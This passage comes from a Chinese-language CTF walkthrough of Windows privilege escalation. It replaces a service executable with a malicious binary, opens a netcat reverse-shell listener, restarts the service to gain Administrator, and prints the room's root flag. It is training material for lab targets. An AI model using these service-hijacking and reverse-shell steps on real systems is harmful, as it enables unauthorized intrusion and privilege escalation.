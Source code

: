 进入普通的windows shell界面，我们先停止合法的服务运行，然后用恶意的二进制程序替换正常的同名应用程序文件:

```cmd
shell
sc stop AdvancedSystemCareService9    
copy ASCService.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
```

![image-20221013205436576](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013205436576.png)

关于SC命令（Windows shell不区分大小写）：

```shell
SC命令的格式：SC [Servername] command Servicename [Optionname= Optionvalues]

Servername：指定服务所在的远程服务器的名称。名称必须采用通用命名约定 (UNC) 格式（“\\myserver”）。如果是在本地运行SC.exe，请忽略此参数。
command ：如query,start,stop,create,config等

Servicename：服务名，也就是要配置的那个服务的名字，例如你要启动一个服务你就输入sc start +你要启动的服务名称（并非是服务显示名称）。
Optionname= Optionvalues：是选项名和选项的值。
```

在重新启动服务之前，我们需要在攻击机终端中设置一个netcat侦听器:

```shell
nc -nlvp 1234
```

然后我们可以在 windows shell 中重新启动之前停止的服务:

```
sc start AdvancedSystemCareService9
```

一旦之前的服务重新启动，攻击机上的侦听器中将获取到反向 shell。成功获取管理员权限之后，我们可以切换到 Administrator 的 Desktop 目录查看root.txt 文件:

```
cd C:\Users\Administrator\Desktop  
dir
more root.txt
```

![image-20221013210312098](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013210312098.png)

> 9af5f314f57607c00fd09803a587db80

**答题卡**

![image-20221013211005429](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013211005429.png)

![image-20221013211028695](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013211028695.png)

## 不使用Metasploit获取初始访问权限并提权

注意：此处建议重启目标机。

现在，我们来看看如何在不使用 Metasploit 的情况下获得初始权限和进行权限提升。为此，我们将使用 PowerShell 和 winPEAS 来枚举目标系统并收集相关信息以提权到管理员用户。
